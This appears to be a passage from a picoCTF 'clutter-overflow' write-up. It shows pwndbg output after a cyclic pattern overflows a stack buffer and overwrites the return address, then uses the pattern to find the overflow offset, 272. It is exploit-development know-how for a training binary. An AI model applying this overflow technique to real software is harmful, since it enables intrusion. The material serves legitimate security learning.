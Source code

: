 ```bash
*RSI  0x7fffffffe080 ◂— 'code != 0xdeadbeef :(\n6169\n'
*R8   0x78
 R9   0x0
 R10  0x0
*R11  0x202
 R12  0x0
*R13  0x7fffffffe468 —▸ 0x7fffffffe6e8 ◂— 'PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'
 R14  0x0
*R15  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2d0 ◂— 0x0
*RBP  0x626161616161616a ('jaaaaaab')
*RSP  0x7fffffffe348 ◂— 'kaaaaaablaaaaaabmaaa'
*RIP  0x4007c0 (main+249) ◂— ret 
─────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────────────────────
 ► 0x4007c0 <main+249>    ret    <0x626161616161616b>










───────────────────────────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffe348 ◂— 'kaaaaaablaaaaaabmaaa'
01:0008│     0x7fffffffe350 ◂— 'laaaaaabmaaa'
02:0010│     0x7fffffffe358 ◂— 0x6161616d /* 'maaa' */
03:0018│     0x7fffffffe360 ◂— 0x100400040 /* '@' */
04:0020│     0x7fffffffe368 —▸ 0x7fffffffe458 —▸ 0x7fffffffe6be ◂— '/home/lynk/picoCTF/clutter-overflow/chall'
05:0028│     0x7fffffffe370 —▸ 0x7fffffffe458 —▸ 0x7fffffffe6be ◂— '/home/lynk/picoCTF/clutter-overflow/chall'
06:0030│     0x7fffffffe378 ◂— 0x6355cb100be6a356
07:0038│     0x7fffffffe380 ◂— 0x0
─────────────────────────────────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────────────────────────────────
 ► 0         0x4007c0 main+249
   1 0x626161616161616b
   2 0x626161616161616c
   3       0x6161616d
   4      0x100400040
   5   0x7fffffffe458
   6   0x7fffffffe458
   7 0x6355cb100be6a356
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> cyclic -l jaaaaaab
Finding cyclic pattern of 8 bytes: b'jaaaaaab' (hex: 0x6a61616161616162)
Found at offset 272
pwndbg>
```
so the offset is 272.
